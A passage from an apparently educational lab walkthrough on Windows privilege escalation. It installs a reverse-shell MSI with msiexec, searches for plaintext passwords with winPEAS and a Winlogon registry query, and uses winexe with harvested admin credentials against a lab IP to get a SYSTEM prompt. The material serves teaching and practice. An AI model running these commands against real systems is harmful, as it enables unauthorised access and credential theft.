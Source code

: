 `msiexec /quiet /qn /i C:\PrivEsc\reverse.msi`

<figure><img src=".gitbook/assets/image (32).png" alt=""><figcaption><p>2 - got shell</p></figcaption></figure>

And we get shell.

### 7 - Passwords Registy

> “Even administrators re-use their passwords, or leave their passwords on systems in readable locations. Windows can be especially vulnerable to this, as several features of Windows store passwords insecurely.”
>
> Registry — “Plenty of programs store configuration options in the Windows Registry. Windows itself sometimes will store passwords in plaintext in the Registry. It is always worth searching the Registry for passwords.”

#### Detection

Run winPEAS with filesinfo (Search files that can contains credentials) and userinfo (Search user information) arguments.

`.\winPEASany.exe quite filesinfo userinfo` -

<figure><img src=".gitbook/assets/image (33).png" alt=""><figcaption><p>1</p></figcaption></figure>

We could also query this specific Registry key to find admin AutoLogon credentials in order to save time:

`reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"`

On Kali, use the winexe command to spawn a command prompt running with the admin privilegess.

`winexe -U 'admin%password' //10.10.229.206 cmd.exe`

<figure><img src=".gitbook/assets/image (34).png" alt=""><figcaption><p>we get system</p></figcaption></figure>

### 8 - Passwords - Saved Creds
